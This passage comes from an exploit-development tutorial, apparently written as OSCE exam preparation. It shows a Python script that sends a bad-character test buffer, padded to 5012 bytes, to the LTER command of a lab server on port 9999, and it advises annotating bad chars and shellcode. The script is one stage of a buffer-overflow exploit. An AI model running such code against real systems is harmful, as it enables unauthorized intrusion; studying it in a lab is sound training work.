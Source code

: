 ![](/assets/images/CTP/LTERBad80.JPG)

A good habit we should start enforcing is adding some helpful comments to our python code as we progress so that we can start to eliminate some careless mistakes. Let's start:
+ annotating bad chars,
+ annotating shellcode lengths,
+ annotating the payload or `msfvenom` command used to generate the shellcode, and
+ annotating egghunter lengths (if needed).

Let's eliminate `80` from our badchars variable since it's trash and it's trying to ruin our day and our exploit and our chance at OSCE glory. Our exploit now looks like this:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer = badchars
buffer += "A" * (5012 - len(badchars))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```
